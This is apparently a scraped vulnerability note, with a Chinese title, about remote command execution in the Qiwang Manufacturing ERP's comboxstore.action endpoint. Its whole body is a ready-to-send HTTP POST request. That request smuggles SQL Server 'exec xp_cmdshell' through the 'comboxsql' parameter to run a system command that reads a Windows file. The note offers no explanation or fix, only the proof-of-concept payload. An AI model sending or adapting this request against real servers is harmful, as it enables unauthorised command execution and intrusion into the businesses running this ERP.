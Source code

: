 # 企望制造 ERP comboxstore.action 远程命令执行漏洞

## 企望制造 ERP comboxstore.action 远程命令执行漏洞
```

POST /mainFunctions/comboxstore.action HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: xxx.xxx.xxx.xxx

comboxsql=exec%20xp_cmdshell%20'type%20C:\Windows\Win.ini'
```

